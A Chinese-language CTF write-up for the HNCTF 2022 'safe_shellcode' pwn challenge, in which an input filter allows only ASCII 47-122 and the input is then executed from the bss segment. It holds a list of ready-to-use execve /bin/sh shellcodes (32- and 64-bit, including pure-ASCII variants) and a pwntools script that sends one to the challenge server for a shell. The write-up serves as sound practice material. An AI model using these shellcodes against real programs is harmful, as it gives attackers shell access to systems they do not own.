


# [HNCTF 2022 Week1]safe_shellcode



首先检查保护

然后进入主程序分析

发现了这个程序中有s变量溢出漏洞。并且他还将
s变量里的值直接存入buff中，这个buff指向的地址就是bss段。
在这个程序的最后还调用了buff这个地址，也就是说我们甚至都不需要栈溢出把返回地址改为bss段的地址。
现在我们只需要想办法绕过这个判断，也就是输入的数值必须是47-122之间的ascii码。
47-122之间的ascii码不就是0-9，A-Z，a-z都可以输入。
这里直接使用我们的shellcode集中的可视化shellcode就行了。

```bash
# 32位 短字节shellcode --> 21字节
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80

# 32位 纯ascii字符shellcode
PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJISZTK1HMIQBSVCX6MU3K9M7CXVOSC3XS0BHVOBBE9RNLIJC62ZH5X5PS0C0FOE22I2NFOSCRHEP0WQCK9KQ8MK0AA

# 32位 scanf可读取的shellcode
\xeb\x1b\x5e\x89\xf3\x89\xf7\x83\xc7\x07\x29\xc0\xaa\x89\xf9\x89\xf0\xab\x89\xfa\x29\xc0\xab\xb0\x08\x04\x03\xcd\x80\xe8\xe0\xff\xff\xff/bin/sh

# 64位 scanf可读取的shellcode 22字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05

# 64位 较短的shellcode  23字节
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05

# 64位 纯ascii字符shellcode
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t

```

接下来exp编写就很简单了只需要把我们的shellcode发送过去就可以了。

exp

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = remote('node5.anna.nssctf.cn',28237)
#p = process()

shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"

p.send(shellcode)

p.interactive()
```

